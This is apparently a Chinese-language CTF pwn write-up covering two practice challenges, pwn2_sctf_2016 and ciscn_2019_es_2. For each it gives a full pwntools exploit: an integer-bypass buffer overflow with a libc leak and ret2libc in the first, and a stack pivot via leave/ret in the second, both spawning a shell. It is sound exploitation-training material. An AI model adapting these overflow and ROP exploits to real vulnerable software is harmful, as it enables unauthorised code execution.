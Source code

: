 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- `lib`地址泄露

![image-20231223203034800](../assets/img/old_imgs/image-20231223203034800.png)

> vuln()

1. 程序对输入的`v2`做了限制首先要利用整数绕过`if (v2 > 32)`的限制

2. 程序中没有现成的`shell`所以要通过`printf`泄露`lib`手动构造`shell`

   ```python
   from pwn import * 
   context.log_level = 'debug'
   io = process('./pwn2_sctf_2016')
   #io = gdb.debug('./pwn2_sctf_2016','break *vuln')
   elf = ELF('./pwn2_sctf_2016')
   Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
   printf_got = elf.got['printf']
   printf_plt = elf.plt['printf']
   vuln_addr = elf.sym['vuln']
   main_addr = elf.sym['main']
   offset =48
   #1.绕过限制
   io.sendlineafter('How many bytes do you want me to read?',b'-1')
   #2.泄露lib
   payload1 = b'A'*offset+p32(printf_plt)+p32(vuln_addr)+p32(printf_got)
   io.sendlineafter(b'data!\n',payload1)
   io.recvuntil('\n')
   a = io.recv(4)
   printf_addr = u32(a)
   print('lib->',hex(printf_addr))
   #3.构造shell
   baseoffset = printf_addr - Lib.symbols['printf']
   sys_addr = Lib.sym['system']+baseoffset
   shell_addr = baseoffset+next(Lib.search(b'/bin/sh'))
   io.sendlineafter(b'read?',b'-1')
   payload2 = b'A'*offset+p32(sys_addr)+p32(main_addr)+p32(shell_addr)
   io.recvuntil(b'data!\n')
   io.sendline(payload2)
   io.interactive()
   ```

   

# ciscn_2019_es_2

![image-20231225113135740](../assets/img/old_imgs/image-20231225113135740.png)

- 栈迁移

1. `read()`存在溢出,但是只有`0x30`个位置不能拿到shell,所以考虑栈迁移
2. 通过泄露参数`s`在栈上的位置,将`payload`写入栈上
3. 迁移栈到参数`s`的位置,运行写入的`payload`拿到shell

```assembly
leaved =>
mov esp,ebp 
pop ebp
#清除栈帧,初始化到执行前的样子
ret =>
pop eip
jmp
#相当于一个无条件转跳
```

![image-20231225110712276](../assets/img/old_imgs/image-20231225110712276.png)

> 泄露出`s`在栈上的偏移地址

![image-20231225124013883](../assets/img/old_imgs/image-20231225124013883.png)

> 完成栈迁移

```python 
from pwn import *
#context.log_level = 'debug'
io = process('./ciscn_2019_es_2')
#io = gdb.debug('./ciscn_2019_es_2','break *vul')
elf = ELF('./ciscn_2019_es_2')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
offset = 0x28
payload1 = b'A'*offset
io.sendafter(b"Welcome, my friend. What's your name?\n",payload1)
io.recvuntil(b'Hello,')
io.recvuntil(b'A'*0x28)
old_ebp = u32(io.recv(4))
s_addr = ebp_addr = old_ebp-0x10-offset
print('old_ebp -> ',hex(old_ebp))
print('s_addr -> ',hex(ebp_addr))
#pause()
payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00' #`\x00`截断
#32位程序中参数在函数的后0x10位置,所以填充p32(0)
payload2 = payload2.ljust(0x28,b'A')
payload2 += p32(s_addr)+p32(0x08048562) #填充满栈空间,用p32(s_addr)+p32(0x08048562)劫持`leave`完成迁移并填充上新的`leave&ret`
io.send(payload2)
io.interactive()
```